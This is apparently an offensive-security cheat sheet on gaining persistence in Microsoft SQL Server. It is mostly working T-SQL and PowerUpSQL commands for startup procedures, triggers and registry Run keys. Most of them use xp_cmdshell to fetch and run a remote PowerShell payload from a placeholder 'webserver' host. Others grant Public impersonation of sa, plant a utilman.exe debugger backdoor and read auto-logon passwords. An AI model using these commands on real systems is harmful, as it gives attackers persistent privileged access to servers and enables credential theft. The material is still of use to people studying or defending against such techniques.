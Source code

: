 # 06. Persistence

## Startup stored procedures
- sysadmin privileges are required to mark proc for automated execution
- owned only by sa
- must be in the master database
- cannot have input or output parameters
- gets executed with sysadmin privileges
- executed when SQL Server restart

> https://technet.microsoft.com/en-us/library/ms191129(v=sql.105).aspx

Create:
```
USE master
GO

CREATE PROCEDURE sp_autops
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"'
GO
```

```
EXEC sp_procoption @ProcName = 'sp_autops', @OptionName = 'startup', @OptionValue = 'on';
```

List:
```
SELECT [name] FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

> https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-procoption-transact-sql
> https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/

## Triggers
> https://docs.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql

### Data Definition Language (DDL) Triggers
- Execute under the context of the user that calls the trigger

```
CREATE Trigger [persistence_ddl_1]
ON ALL Server -- or DATABASE
FOR DDL_LOGIN_EVENTS -- See the docs below for events and event groups
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"
'
GO
```

> https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/implement-ddl-triggers
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups

### Data Manipulation Language (DML) Triggers
- Execute under the context of the user that calls the trigger
- User should have privilages to do the task in the trigger

```
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
USE testdb
CREATE TRIGGER [persistence_dml_1]
ON testdb.dbo.datatable
FOR INSERT, UPDATE, DELETE AS
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"'
GO
```

> https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/create-dml-triggers

### Logon Triggers
- Ideal for triggering with a logon failure of a low-privilege user.

```
CREATE Trigger [persistence_logon_1]
ON ALL SERVER WITH EXECUTE AS 'sa'
FOR LOGON
AS
BEGIN
IF ORIGINAL_LOGIN() = 'testuser'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object
System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"
'
END;
```

List all Triggers
```
SELECT - FROM sys.server_triggers
```

```
Get-SQLTriggerDdl -Instance instance -username sa -Password pw -Verbose
```

> https://docs.microsoft.com/en-us/sql/relational-databases/triggers/logon-triggers

## Registry keys

### `xp_regwrite`
- Needs sysadmin

```
EXEC xp_regwrite
@rootkey = 'HKEY_LOCAL_MACHINE',
@key = 'Software\Microsoft\Windows\CurrentVersion\Run',
@value_name = 'SQLServerUpdate',
@type = 'REG_SZ',
@value = 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")'
```

```
Get-SQLPersistRegDebugger -Instance instance -username sa -Password pw -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Verbose
```

```
Get-SQLPersistRegRun -Instance instance -username sa -Password pw -Name SQLUpdate -Command 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")' -Verbose
```

### `xp_regread`
- Limited read for public role

```
DECLARE @Reg_Value VARCHAR(1000)
EXECUTE xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\CurrentVersion',‘ProductName',
@Reg_Value OUTPUT
SELECT @Reg_Value
```

Read auto-login password:
```
Get-SQLRecoverPwAutoLogon -Instance instance -username sa -Password pw -Verbose
```

> https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/

### `xp_regdeletekey`
- Needs sysadmin
> https://support.microsoft.com/en-us/help/887165/bug-you-may-receive-an-access-is-denied-error-message-when-a-query-cal
